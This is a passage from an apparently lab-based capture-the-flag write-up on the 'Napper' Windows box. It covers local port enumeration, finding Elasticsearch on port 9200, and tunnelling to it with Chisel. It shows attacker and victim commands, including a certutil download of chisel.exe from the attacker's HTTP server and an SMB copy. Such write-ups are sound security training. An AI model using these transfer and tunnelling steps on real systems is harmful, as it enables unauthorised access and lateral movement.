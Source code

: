 <img src="{{ site.img_path }}/napper_writeup/Napper_044.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I continue enumerating the victim machine with some simple commands, and I find with `netstat` that there are some open ports but they are only accessible locally, one of them is **9200** which by default is the one used by **Elasticsearch**. To access from my browser I am going to create a tunnel with **[Chisel](https://github.com/jpillora/chisel){:target="_blank"}**, for that I first need to know the architecture of the **Windows OS** and download the correct binary. Once `chisel.exe` is transferred to the **Napper** box I can configure it in client mode to connect to my server and with the browser I can have access to the **Elasticsearch** service. Unfortunately the default credentials do not work so I will have to keep looking for more information.

> **[Elasticsearch](https://www.elastic.co/guide/en/elasticsearch/reference/current/elasticsearch-intro.html){:target="_blank"}**: is the distributed search and analytics engine at the heart of the **Elastic Stack**. **Logstash** and **Beats** facilitate collecting, aggregating, and enriching your data and storing it in **Elasticsearch**. **Kibana** enables you to interactively explore, visualize, and share insights into your data and manage and monitor the stack. **Elasticsearch** is where the indexing, search, and analysis magic happens.

> **go-elasticsearch**: The official Go client for Elasticsearch.

> **Victime Machine:**

```cmd
netstat -ano
#    --> 9200  9300      ??
                                                                                                                          
curl http://127.0.0.1:9200        # :(

systeminfo

#    --> chisel_1.9.1_linux_amd64.gz
#    --> chisel_1.9.1_windows_arm64.gz
```

> **Attacker Machine:**

```bash
mv /home/al3j0/Downloads/chisel_1.9.1_* .
gunzip chisel_1.9.1_windows_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
mv chisel_1.9.1_linux_amd64 chisel
chmod +x !$
mv chisel_1.9.1_windows_amd64 chisel.exe
python3 -m http.server 80
```

> **Victime Machine::**

```cmd
cd C:\Windows\Temp
powershell
mkdir privesc
cd privesc
certutil -urlcache -f -split http://10.10.14.152/chisel.exe
copy \\10.10.14.16\smbFolder\chisel.exe .\                                    # :)
```
